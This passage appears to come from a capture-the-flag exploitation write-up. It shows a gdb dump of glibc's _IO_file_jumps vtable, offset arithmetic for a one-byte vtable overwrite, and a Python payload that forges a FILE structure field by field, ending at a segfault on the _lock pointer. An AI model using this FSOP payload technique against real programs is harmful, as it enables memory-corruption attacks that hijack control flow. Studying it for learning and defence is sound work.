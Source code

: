 let's see if i can call `_IO_file_underflow` ...

```asm
0x72d146602030 <_IO_file_jumps>:        0x0000000000000000      0x0000000000000000
0x72d146602040 <_IO_file_jumps+16>:     0x000072d146491a30      0x000072d146492de0
0x72d146602050 <_IO_file_jumps+32>:     0x000072d146492630      0x000072d146495590
0x72d146602060 <_IO_file_jumps+48>:     0x000072d146496dd0      0x000072d1464939d0
0x72d146602070 <_IO_file_jumps+64>:     0x000072d146493d10      0x000072d146493150
0x72d146602080 <_IO_file_jumps+80>:     0x000072d146495cb0      0x000072d1464923f0
0x72d146602090 <_IO_file_jumps+96>:     0x000072d146493000      0x000072d146485110
0x72d1466020a0 <_IO_file_jumps+112>:    0x000072d1464938a0      0x000072d146493930
0x72d1466020b0 <_IO_file_jumps+128>:    0x000072d1464938c0      0x000072d146493920
0x72d1466020c0 <_IO_file_jumps+144>:    0x000072d1464938d0      0x000072d146496f80
0x72d1466020d0 <_IO_file_jumps+160>:    0x000072d146496f90      0x0000000000000000
```

I want `_IO_file_jumps+56` to be `_IO_file_underflow`... (which is at `_IO_file_jumps+10`)

and vtable is 0x72d146602030... so 0x72d146602030 - 0x38 + 0x10 = 0x72d146602018

one byte overwrite to 18 then...

this is my file structure so far:

> one thing that helps a lot digging in gdb is this amazing fork of gef by [bata24](https://github.com/bata24/gef) (`exec-untill call` my beloved)

```python3
payload = b"\x84\x2a\xad\xfb" + p32(0x00) # _flags + 4-byte hole
payload += b"\x00"*88 # *_IO_read_ptr -> *_IO_save_end
payload += b"\x00"*8 # *_markers
payload += b"\x00"*8 # *_chain
payload += b"\x00"*4 # _fileno
payload += b"\x00"*4 # _flags2
payload += b"\xff"*8 # _old_offset
payload += b"\x00"*2 # _cur_coloumn
payload += b"\x00"*1 # _vtable_offset
payload += b"\x01"*1 + p32(0x00) # _shortbuf[1] + 4-byte hole
payload += b"\x41"*8 # *_lock
payload += b"\xff"*8 # _offset
payload += b"\x00"*8 # *_codecvt
payload += b"\x00"*8 # *_wide_data
payload += b"\x00"*8 # *_freeres_list
payload += b"\x00"*8 # *_freeres_buf
payload += b"\x00"*8 # *__pad5
payload += b"\xff"*4 # _mode
payload += b"\x00"*20 # _unused2[20]
payload += b"\x18" # VTABLE
```

and it segfaulted because of `*_lock...`
```asm
 <puts+0x117>   mov    rax, QWORD PTR [rdi + 0x8]
```
> memory access: $rdi+0x8 = 0x4141414141414149 

